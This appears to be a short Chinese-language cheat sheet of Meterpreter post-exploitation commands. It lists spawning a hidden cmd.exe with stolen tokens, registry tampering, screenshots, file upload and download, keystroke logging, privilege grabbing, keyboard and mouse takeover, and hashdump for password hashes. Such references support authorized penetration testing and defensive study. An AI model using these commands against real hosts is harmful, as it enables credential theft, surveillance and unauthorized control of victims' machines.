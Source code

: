 以所有可用令牌来运行一个交互的shell

execute -f cmd.exe -i

执行cmd.exe命令并进行交互

execute -f cmd.exe -i -t

以所有可用令牌来执行cmd命令

execute -f cmd.exe -i -H -t

以所有可用令牌来执行cmd命令，并隐藏该进程

rev2self

回到控制目标主机的初始用户账户下

reg command

在目标主机注册表中进行交互，创建，删除，查询等操作

setdesktop number

切换到另一个用户界面

screenshot

截屏

upload file

向目标主机上传文件

download file

从目标主机上下载文件

keyscan_start

针对远程目标主机开启键盘记录功能

keyscan_dump

存储目标主机上捕获的键盘记录

keyscan_stop

停止针对目标主机的键盘记录

getprivs

尽可能多的获取目标主机上的特权

uictl enable keyboard/mouse

接管目标主机的键盘和鼠标

background

将你当前的Meterpreter shell转为后台执行

hashdump

导出目标主机中的口令哈希值
